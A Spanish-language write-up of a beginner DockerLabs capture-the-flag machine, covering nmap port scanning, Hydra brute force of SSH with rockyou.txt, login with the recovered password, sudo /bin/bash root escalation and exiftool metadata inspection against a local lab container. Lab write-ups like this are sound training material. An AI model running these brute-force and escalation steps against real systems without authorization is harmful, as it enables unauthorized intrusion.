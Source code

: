 # 🖥️ **Máquina: BorazuwarahCTF**  
- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:**  
  Esta máquina de DockerLabs está diseñada para practicar técnicas básicas de explotación, incluyendo fuerza bruta con Hydra, análisis de metadatos y escalada de privilegios mediante SSH. Es ideal para principiantes que desean familiarizarse con herramientas comunes de pentesting.  

- **🎯 Objetivo:**  
  - Identificar credenciales mediante fuerza bruta.  
  - Analizar metadatos de archivos para encontrar información sensible.  
  - Escalar privilegios en el sistema.  

![Logo de BorazuwarahCTF](/BorazuwarahCTF/Imagenes/Logo.png)  

---

## 🚀 **Despliegue de la Máquina BorazuwarahCTF en DockerLabs**  

Para iniciar la máquina, sigue estos pasos:  

### 1️⃣ **Ejecutar el despliegue automático**  
Ejecuta el siguiente comando para desplegar la máquina:  

```bash
sudo bash auto_deploy.sh borazwarabctf.tar
```  

📌 **Nota:** Asegúrate de tener Docker configurado correctamente.  

![Máquina Iniciada](/BorazuwarahCTF/Imagenes/Activar.jpeg)  

Una vez iniciada, verifica la conexión con:  

```bash
ping -c4 172.17.0.2
```  
![ping](/BorazuwarahCTF/Imagenes/Ping.jpeg)  
---

## 🔍 **Reconocimiento**  

### Escaneo de Puertos  
Se identificaron los puertos abiertos con Nmap:  

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports.txt
```  

**Puertos abiertos:**  
- **22/tcp (SSH)**  
- **80/tcp (HTTP)**  

![Resultado del Escaneo](/Escaneo.jpeg)  

### Servicios Detectados  
Se utilizó Nmap para obtener más detalles:  

```bash
nmap -sCV -p22,80 172.17.0.2 -oN target.txt
```  

**Resultados:**  
- **SSH:** OpenSSH 9.2p1  
- **HTTP:** Apache 2.4.59  

![Servicios Detectados](/Servicios.jpeg)  

---

## 🛠️ **Explotación**  

### Fuerza Bruta con Hydra  
Se empleó Hydra para encontrar credenciales SSH:  

```bash
hydra -l borazunarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 20
```  

**Credenciales encontradas:**  
- **Usuario:** `borazunarah`  
- **Contraseña:** `123456`  

![Resultado de Hydra](/Hydra.jpeg)  

### Conexión SSH  
Se accedió al sistema con las credenciales obtenidas:  

```bash
ssh borazunarah@172.17.0.2
```  

### Escalada de Privilegios  
Se verificaron los permisos de sudo:  

```bash
sudo -l
```  

**Resultado:**  
- El usuario puede ejecutar `/bin/bash` como root sin contraseña.  

```bash
sudo /bin/bash
```  

![Escalada de Privilegios](/SSH.jpeg)  

---

## 📂 **Análisis de Metadatos**  

Se descargó una imagen del servidor y se analizaron sus metadatos:  

```bash
wget http://172.17.0.2/imagen.jpeg
exiftool imagen.jpeg
```  

**Metadatos relevantes:**  
- **Usuario:** `Horazwaraah`  
- **Descripción:** Posible información sensible.  

![Metadatos de la Imagen](/Metadatos.jpeg)  

---

## 📌 **Conclusión**  
Esta máquina permitió practicar técnicas básicas de pentesting, desde reconocimiento hasta explotación y escalada de privilegios. Se destacó la importancia de:  
- Verificar permisos de sudo.  
- Analizar metadatos en archivos públicos.  
- Utilizar herramientas como Hydra para ataques de fuerza bruta.  

![Página Web](/Pagina.jpeg)
